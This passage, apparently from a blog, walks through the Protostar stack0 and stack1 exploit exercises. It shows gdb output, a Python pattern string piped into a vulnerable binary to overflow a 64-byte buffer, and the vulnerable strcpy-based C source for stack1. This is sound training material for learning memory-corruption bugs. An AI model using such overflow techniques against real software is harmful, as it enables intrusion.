 ```bash
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
Error while running hook_stop:
The program has no registers now.
```

We can clean up this solution with below:

```python
print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ"
```

Running like below sends the output of the python script straight to STDIN of the stack0 program, providing us with desired output.
```bash
user@protostar:/tmp$ python pattern.py | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

## Stack 1

---
layout: post
title:  "Protostar Stack1"
date:   2023-03-15 09:00:00 +1100
categories: Journey
tags: 
---

However ineloquent, I simple brute forced this one.

Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
